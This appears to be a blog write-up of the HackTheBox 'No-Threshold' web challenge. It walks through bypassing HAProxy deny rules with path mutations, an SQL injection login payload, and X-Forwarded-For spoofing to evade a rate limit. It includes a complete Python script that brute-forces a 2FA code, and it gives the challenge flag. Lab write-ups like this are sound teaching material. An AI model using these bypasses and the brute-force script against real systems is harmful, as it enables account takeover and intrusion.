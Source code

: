 ```yaml
---
title: "No-Threshold - HackTheBox"
description: "https://app.hackthebox.com/challenges/No-Threshold"
summary: "Hack The Box Web Challenge No-Threshold"
date: 2024-09-01
draft: true
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["HackTheBox", "CTF", "Web", "SQLi"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: true
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
---
```


------------------------

### Challenge Description

Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩

### Source Code Review

In the `haproxy.cfg` file, we notice few things.

#### Bypass blocked access to login

```cfg
# External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }
```

Access to the path that starts with `/auth/login` is blocked. This can be easily bypassed with mutations like `//auth/login` or `/xx/../auth/login`.

URLs are often normalized by web servers, so both of them will resolve to `/auth/login`.

#### Bypass blocked access to verify-2fa

```cfg
    # Parse the X-Forwarded-For header value if it exists. If it doesn't exist, add the client's IP address to the X-Forwarded-For header. 
    http-request add-header X-Forwarded-For %[src] if !{ req.hdr(X-Forwarded-For) -m found }
    
    # Apply rate limit on the /auth/verify-2fa route.
    acl is_auth_verify_2fa path_beg,url_dec /auth/verify-2fa

    # Checks for valid IPv4 address in X-Forwarded-For header and denies request if malformed IPv4 is found. (Application accepts IP addresses in the range from 0.0.0.0 to 255.255.255.255.)
    acl valid_ipv4 req.hdr(X-Forwarded-For) -m reg ^([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])$
    
    http-request deny deny_status 400 if is_auth_verify_2fa !valid_ipv4

    # Crate a stick-table to track the number of requests from a single IP address. (1min expire)
    stick-table type ip size 100k expire 60s store http_req_rate(60s)

    # Deny users that make more than 20 requests in a small timeframe.
    http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
    http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }

    # External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }
```

This will keep track of the number of requests made to the `/auth/verify-2fa` endpoint from the IP based on the `X-Forwarded-For` header. It will deny requests to `/auth/verify-2fa` with a 429 status if the request rate exceeds 20 requests per minute per IP.

This can also be easily bypassed by using path mutations. or we can use `X-Forwarded-For` to use multiple IPs. 20 requests per IP, so we will need 500 IPs to bruteforce a 4-digit code.

#### SQL injection in login

In `login.py` we notice that username AND password are directly appended to the SQLite query. That's right, we have SQL injection here!

```python
user = query_db(
                f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
                one=True,
            )
```
If we successfully login, it will set a 4-digit 2FA code.
```python
            set_2fa_code(4)
```

```python
def set_2fa_code(d):
    uwsgi.cache_del("2fa-code")
    uwsgi.cache_set(
        "2fa-code", "".join(random.choices(string.digits, k=d)), 300 # valid for 5 min
    )
```

### Get The Flag

If we successfully login and verify the 2FA, then it will redirect to `/dashboard` and return the flag.
Simple enough, let's try it.

To login successfully we can use simple payload like `' OR 1=1 OR 'x'='x` in the username field.

![Login via SQLi](files/sqli-login.png#center)

Now send it to the intruder and bruteforce a 4-digit code for the `//auth/verify-2fa` endpoint.

![Intruder 2fa result](files/intruder-2fa-bruteforce.png#center)

![Flag at Dashboard endpoint](files/dashboard-endpoint.png#center)

Alternatively, we can bruteforce 2FA code through multiple IP addresses via the `X-Forwarded-For` header.

Below Python code automates that process:

```python
import os
import re
import sys
import threading
import requests


n1, n2, n3, n4 = 1, 0, 0, 0
ips = dict()
url = "http://94.237.59.199:48823"


def get_ip(x):
    global n1, n2, n3, n4, url
    for x2 in range(x, x + 10):
        if n4 < 255:
            n4 += 1
        elif n3 < 255:
            n3 += 1
        elif n2 < 255:
            n2 += 1
        elif n1 < 255:
            n1 += 1
        ip = f"{n1}.{n2}.{n3}.{n4}"
        headers = {
            "X-Forwarded-For": ip,
            "Content-Type": "application/x-www-form-urlencoded",
        }
        response = requests.post(
            f"{url}//x/../auth/login",
            data="username='+OR+1263%3d1263+OR+'RzWd'%3d'OrZt&password=cycAEGAv4OapKYasrIa2vuguAnSgwib5",
            headers=headers,
            proxies={"http": "http://127.0.0.1:8080/"},
            allow_redirects=False,
        )
        if "verify-2fa" not in response.text:
            print(response.text)
            sys.exit("no 2fa!!")
        ips[x2] = ip
        pass
    pass


def brute_force(start, end, ip):
    for i in range(start, end):
        headers = {
            "X-Forwarded-For": ip,
            "Content-Type": "application/x-www-form-urlencoded",
        }
        response = requests.post(
            f"{url}/auth/verify-2fa",
            data=f"2fa-code={i:04}",
            headers=headers,
            proxies={"http": "http://127.0.0.1:8080/"},
        )
        if "flag" in response.text:
            print("IP:", ip)
            matches = re.findall(r"HTB\{(.*?)\}", response.text)
            if matches:
                for match in matches:
                    print("Flag Found: HTB{", match, "}", sep="")
            else:
                print(response.text)
            os._exit(0)
        pass


num_threads = 500
total_numbers = 10000
chunk_size = total_numbers // num_threads
threads = []
threads2 = []
for x in range(50):
    t = threading.Thread(target=get_ip, args=(x * 10,))
    threads2.append(t)
    t.start()
    pass
for t in threads2:
    t.join()

print(f"Total ip: {len(ips)}")
for i in range(num_threads):
    start = i * chunk_size
    end = start + chunk_size
    thread = threading.Thread(target=brute_force, args=(start, end, ips[i]))
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()

print("Brute force completed.")
```

Code output:

![Python code output](files/python-code-output.png#center)

Flag: `HTB{1_l0v3_h4pr0x1_4cl5_4nd_4ll_1t5_f34tur35}`

Happy Hacking
